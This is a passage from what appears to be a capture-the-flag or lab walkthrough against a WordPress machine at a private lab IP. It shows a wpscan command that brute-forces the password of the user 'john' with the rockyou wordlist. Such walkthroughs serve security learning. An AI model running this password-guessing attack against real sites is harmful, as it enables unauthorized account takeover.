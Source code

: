 
![alt_text](../images/image56.png "image_tooltip")


**DISCLAIMER: from now on, the target IP has changed to 10.0.2.9**

We have seen that there is a post created by the user **john** let’s see if we can brute-force his password.

```shell
sudo wpscan --url http://10.0.2.9/backup_wordpress -P /usr/share/wordlists/rockyou.txt --usernames john
```


